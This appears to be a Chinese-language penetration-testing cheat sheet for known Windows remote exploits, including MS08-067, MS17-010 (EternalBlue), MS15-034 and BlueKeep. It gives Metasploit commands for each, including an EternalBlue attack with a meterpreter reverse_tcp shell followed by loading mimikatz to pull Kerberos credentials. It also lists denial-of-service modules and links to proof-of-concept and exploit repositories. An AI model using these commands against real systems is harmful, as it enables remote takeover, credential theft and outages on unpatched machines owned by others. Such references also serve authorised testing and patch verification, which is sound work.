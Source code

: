 **远程利用类**
- **MS08-067 & CVE-2008-4250**
    - MSF模块
        ```bash
        use exploit/windows/smb/ms08_067_netapi
        set payload windows/x64/meterpreter/reverse_tcp
        set target 0
        ```

- **MS12-020 & CVE-2012-0002**
    - MSF模块
        ```bash
        use auxiliary/scanner/rdp/ms12_020_check
        use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
        ```

- **MS14-066 & CVE-2014-6321**
    - POC | Payload | exp
        - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

- **MS15-034 & CVE-2015-1635**
    - POC | Payload | exp
        - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

    - 文章
        - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

    - MSF模块
        ```bash
        use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
        use auxiliary/dos/http/ms15_034_ulonglongadd
        ```

- **MS17-010**
    - MSF模块
        ```bash
        发现,检测
        use auxiliary/scanner/smb/smb_ms17_010

        使用payload连上去
        use exploit/windows/smb/ms17_010_eternalblue
        set payload windows/x64/meterpreter/reverse_tcp
        set lhost   # 设一下本机地址
        set rhosts
        run

        msf 下
        加载mimikatz模块
        load mimikatz
        kerberos
        ```

- **bluekeep & CVE-2019-0708**
    - POC | Payload | exp
        - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
        - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
        - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)

---